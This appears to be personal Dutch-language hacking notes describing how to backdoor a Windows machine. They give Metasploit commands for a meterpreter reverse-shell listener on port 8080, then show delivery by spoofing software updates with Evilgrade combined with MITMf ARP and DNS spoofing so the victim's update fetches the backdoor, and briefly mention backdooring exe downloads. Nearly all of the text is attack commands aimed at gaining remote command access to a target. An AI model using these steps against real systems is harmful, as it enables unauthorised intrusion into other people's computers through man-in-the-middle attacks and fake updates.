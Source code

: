 ---- Backdoor installeren ----
Luisteren op inkomende connections voor de poort waar de backdoor voor gecreate is 
```
> msfconsole
> use exploit/multi/handler
> show options
> set PAYLOAD windows/meterpreter/reverse_https
> exploit
```
LHOST eigen ip
LPORT 8080

Dan op target computer backdoor uitvoeren zodat die computer connectie maakt met poort 8080 van ons

--- Backdoor delivery 1: Spoofing Software Updates ----
Install Evilgrade
```
> git clone https://github.com/infobyte/evilgrade.git
> cd evilgrade/
> cpan Data::Dump
> cpan Digest::MD5
> cpan Time::HiRes
> cpan RPC::XML

> ./evilgrade
> show modules
> configure 'program'
> show options
> agent naar backdoor zetten
> start
```

(andere terminal)
`> leafpad /etc/mitmf/mitmf.conf`
dns poort 5353 aanpassen en ip's
[[[A]]] reccords aanpassen:
link van update in evilgrade : eigen ip (dus doorverwijzen naar uzelf)
`> mitmf --arp --spoof --gateway ... ---target ... -i eth0 --dns`

(andere temrinal)
```
> msfconsole
> use exploit/multi/handler
> show options
> set PAYLOAD windows/meterpreter/reverse_http
LHOST eigen ip
> exploit
```
LPORT 8080

wanneer target update, krijg je terminalcommand rights

--- Backdoor delivery 2: Backdooring exe downloads ----
Wanneer target iets random dowload, wordt de exe gebackdoored
